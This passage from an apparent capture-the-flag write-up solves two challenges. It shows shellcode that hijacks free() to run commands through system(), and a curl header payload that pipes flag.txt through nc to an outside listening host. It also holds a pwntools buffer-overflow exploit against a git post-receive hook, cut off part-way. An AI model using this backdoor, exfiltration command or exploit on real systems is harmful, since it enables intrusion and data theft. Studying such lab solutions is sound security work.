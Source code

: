   ad:   48 b8 55 55 55 55 55    movabs rax, 0x5555555555555555
  b4:   55 55 55 
  b7:   48 a3 44 44 44 44 44    movabs ds:0x4444444444444444, rax
  be:   44 44 44 
  c1:   58                      pop    rax
  c2:   5b                      pop    rbx
  c3:   5d                      pop    rbp
  c4:   41 5c                   pop    r12
  c6:   41 5d                   pop    r13
  c8:   c3                      ret
{% endhighlight %}

This code will hijack `free()` and if a freed string is on the format `cmd{.*}`, the contents of it will be passed to `system()`. We can make a request to the web server on the running machine with our payload in a header which will be executed once the server has finished processing our request:

{% highlight bash %}
$ nc -v -n -l -p 31337 &
Listening on 0.0.0.0 41000

$ curl 'http://injector.challenges.adversary.zone:4321/x' -H 'X: cmd{cat flag.txt|nc cs.zeta-two.com 31337}'
Connection received on 167.99.209.243 37378
CS{fr33_h00k_b4ckd00r}
{% endhighlight %}

Flag: `CS{fr33_h00k_b4ckd00r}`

### Tab-Nabbed

We are given an image an address where the image is running. From the image we find that it is running a gitolite git server with one repository: "hashfunctions". There is also a post-receive hook set up for that repo to run the "detab" program on every modified file. The program converts leading tabs to spaces in files but it has a buffer overflow vulnerability. The program works with a 512 byte buffer which is flushed when it is full. However, the check to determine if it is full only checks for strict equality so by putting a tab in the file when the buffer has for example 510 characters in it the size will jump to 514 and continue overflowing from there. We need to make sure to keep some other local variables valid but other than that there are no protections which means we can directly overwrite the return address with the convenient "print flag" function in the program. To generate the payload file we run the following exploit:

{% highlight python %}

#!/usr/bin/env python3

from pwn import *

ADDR_PRINT_FLAG = 0x00000000004011D6

payload = b''
payload += b'A'*510             # Fill the buffer almost (n=510)
payload += b'\n'                # Reset the newline flag (n=511)
payload += b'\t'*1              # tab replaced with 4 spaces (n=515)
payload += b'\n'*(13+4+4)       # pad and keep newline flag set (n=536)
#payload += cyclic(512, n=8)    # use this in first pass to find offset 
offset = cyclic_find(0x6161616161616162, n=8)
payload += b'E'*offset          # pad until ret addr (n=544)
payload += p64(ADDR_PRINT_FLAG) # overwrite ret addr with flag function
pause()

# Create payload file
with open('payload.dat', 'wb') as fout:
    fout.write(payload)

# Test locally